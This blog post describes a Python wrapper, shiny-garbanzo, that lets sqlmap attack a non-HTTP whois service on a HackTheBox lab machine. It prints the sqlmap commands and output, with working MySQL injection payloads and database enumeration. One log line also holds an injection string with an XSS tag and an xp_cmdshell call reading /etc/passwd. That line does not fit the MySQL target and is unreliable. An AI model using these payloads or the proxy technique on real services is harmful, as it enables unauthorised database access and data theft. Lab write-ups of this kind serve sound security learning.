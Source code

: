 ```yaml
---
title: Introducing sqlmap into non-HTTP services.
published: true
---
```


Recently, I was introduced to an interesting problem: How to automate the SQL injection exploitation of non-HTTP service? Sometimes services like `whois` are using custom SQL databases, which is an ideal situation to produce unwanted problems because you have to take care of the sanitization of user input. The `whois` service, which I used for testing is working on a non-retired [HachTheBox.eu](https://hackthebox.eu) box, so I can’t do it very detailed, but you should be able to take advantage of the idea itself to create your custom proxies or just give a try with shiny-garbonzo - an HTTP wrapper, which will invoke your tool and pass to it the `sqlmap's` input. Let’s start by diving into how `sqlmap` works.

## sqlmap®:

`Sqlmap` can automate the SQL injection attack using requests to HTTP/S sites and some magic :) When you think about SQLi you might imagine it's a web application attack vector but other non-HTTP based services are using databases as well so they might be prone. While passing an interesting HTTP request or URL to `sqlmap`, it can test all parameters, no matter if it is GET or POST or even HTTP header based injection point. But what to do when you know that your non-HTTP service is prone to SQL injection attack? You can exploit it manually which is recommended for learning sake or use a tool that is dedicated to that service being able to communicate with it and script your way into.

## Toolbelt:

- sqlmap 1.3.9#stable
- python 3.7

## Tool:

[https://github.com/haqpl/shiny-garbanzo](https://github.com/haqpl/shiny-garbanzo)

## How does it work?

The workflow looks like that:

1. Start IPv4/IPv6 HTTP Server and listen on given IP:PORT.
2. Loop for connections from `sqlmap`.
3. Parse `sqlmap` input and assembly shell command to invoke the tool.
4. Return the output from shell as a valid HTTP response.


## Working example:

Below you can see an example usage of `shiny-garbanzo` and the corresponding output of sqlmap, which identified and successfully exploited four different types of SQLi vulnerability in non-HTTP service.


{% include figure.html file="/assets/shiny-garbanzo.png" alt="/assets/shiny-garbanzo.png" number="1" caption="SQL injection in non-HTTP service." %}

```
python3 shiny-garbanzo.py --host '127.0.0.1' --tool "whois" --port 1337 --arguments="-h IP SQLMAP"
[i] Starting server on 1337 PORT
[i] Start with this:
[+] sqlmap -u "127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST /?lgda=9167%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
...
```

```
sqlmap -u "http://127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST --tables 
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:20:16 /2019-10-23/

[18:20:17] [WARNING] provided value for parameter 'cmd' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[18:20:17] [INFO] testing connection to the target URL
[18:20:17] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.7.5rc1')
[18:20:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:20:17] [INFO] testing if the target URL content is stable
[18:20:17] [INFO] target URL content is stable
[18:20:17] [INFO] heuristic (basic) test shows that POST parameter 'cmd' might be injectable (possible DBMS: 'MySQL')
[18:20:17] [INFO] heuristic (XSS) test shows that POST parameter 'cmd' might be vulnerable to cross-site scripting (XSS) attacks
[18:20:17] [INFO] testing for SQL injection on POST parameter 'cmd'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSesfor the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and [18:20:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:20:24] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:20:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:25] [WARNING] reflective value(s) found and filtering out
[18:20:26] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:27] [INFO] POST parameter 'cmd' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
...
[18:20:27] [INFO] POST parameter 'cmd' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:20:27] [INFO] testing 'MySQL inline queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[18:20:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:20:38] [INFO] POST parameter 'cmd' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:20:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:20:38] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:20:38] [INFO] target URL appears to have 2 columns in query
[18:20:38] [INFO] POST parameter 'cmd' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:20:38] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'cmd' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: cmd (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: cmd=-5703') OR 4258=4258#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: cmd=') AND (SELECT 9790 FROM(SELECT COUNT(*),CONCAT(0x716a7a6271,(SELECT (ELT(9790=9790,1))),0x71627a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- mPGW

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cmd=') AND (SELECT 9669 FROM (SELECT(SLEEP(5)))ocLO)-- pzpA

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: cmd=') UNION ALL SELECT CONCAT(0x716a7a6271,0x736e52496f5a646e56714f70556150784b766b6648696a45746d6869424875725a77684354704b70,0x71627a6b71),NULL#
---
[18:20:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[18:20:45] [INFO] fetching database names
[18:20:45] [INFO] fetching tables for databases: 'information_schema, whois'
Database: informati\non_schema
[1 table]
...

Database: whois
[1 table]
...

Database: information_schema
[77 tables]
...

[18:20:45] [INFO] fetched data logged to text files under './output/127.0.0.1'

[*] ending @ 18:20:45 /2019-10-23/

```
Profit.

## Credits:

[@kolokokop](https://twitter.com/kolokokop), he did it the same way ;)

<hr>

If you found that idea interesting or have a non-HTTP service in mind which could be tested, please contact me or just comment on the post.
